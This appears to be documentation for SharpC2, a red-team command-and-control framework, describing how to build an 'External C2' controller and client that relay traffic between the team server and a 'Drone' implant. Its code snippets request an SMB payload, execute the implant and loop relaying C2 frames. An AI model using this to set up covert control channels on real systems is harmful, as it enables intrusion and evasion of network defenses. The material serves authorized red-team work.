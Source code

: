 External C2
===========

External C2 allow a 3rd application to act as a communication layer between the SharpC2 team server and Drone payload.  This allows you to implement completely custom C2 protocols without having to modify the core framework.

.. graphviz::

   digraph foo {
    rankdir="LR";
    node [shape=box];

    teamserver [label="Team Server"];
    controller [label="Controller"];
    client [label="Client"];
    drone [label="Drone"];

    teamserver -> controller [label="C2 Frames"];
    controller -> client [label="Custom C2"];
    client -> drone [label="C2 Frames"];

    controller -> teamserver;
    client -> controller;
    drone -> client
   }


|

ExternalC2.NET
--------------

The SharpC2 solution contains a .NET library to simplify the process of implementing ExternalC2.  Example Controller and Client projects are also provided.


3rd Party Controller
--------------------

The controller can leverage the ``ExternalC2.NET.Server`` namespace.  It must instantiate a new ``ServerController`` class with the IP address and port of the ExternalC2 handler, and then call ``Connect``.


.. code-block::

    if (args.Length != 2)
        {
            Console.WriteLine("demo-controller.exe <address> <port>");
            return;
        }

        var target = IPAddress.Parse(args[0]);
        var port = int.Parse(args[1]);

        // connect to the team server
        var controller = new ServerController(target, port);

        if (!await controller.Connect())
        {
            Console.WriteLine($"Failed to connect to {target}:{port}.");
            return;
        }


It then requests an SMB payload from the team server by providing a pipename.  This is returned in the form of a ``byte[]``.

.. code-block::

    // request payload
    var payload = await controller.RequestPayload(pipename);


The controller must then provide the payload to the 3rd party client.  The client will also need to know the pipename (this could be generated by the client and given to the controller over the custom C2 protocol).  It can then drop into a loop to continuously relay data from the 3rd party client to the team server.

.. code-block::

    while (your client is connected)
    {
        if (client has data)
        {
            // read from client
            var inbound = await YourReadMethod();
                
            // send it to team server
            await controller.SendData(inbound);
                
            // read data from team server
            var outbound = await controller.ReadData();
                
            // send it to the client
            await YourSendMethod(outbound);
        }

        await Task.Delay(100);
    }


3rd Party Client
----------------

The client can leverage the ``ExternalC2.NET.Client`` namespace.  It should initiate communication with your 3rd controller and either send or receive a pipename.  A ``ClientController`` class should be instantiated using that pipename.

.. code-block::

    var controller = new ClientController(pipename);


Once the payload has been received from the 3rd party controller, call the ``ExecutePayload`` method.  This will execute the Drone payload and attempt to connect to its SMB named pipe.

.. code-block::

    if (!await controller.ExecutePayload(payload))
    {
        Console.WriteLine("Failed to connect to pipe");
        return;
    }

It can then drop into a loop to continuously relay data from the drone to the 3rd party controller.

.. code-block::

    while (you're connected to the controller)
    {
        // read from drone
        var outbound = await controller.ReadDrone();

        // send to controller
        await YourSendMethod(outbound);

        // read from controller
        var inbound = await YourReadMethod();

        // send to drone
        await controller.SendDrone(inbound);

        await Task.Delay(100);
    }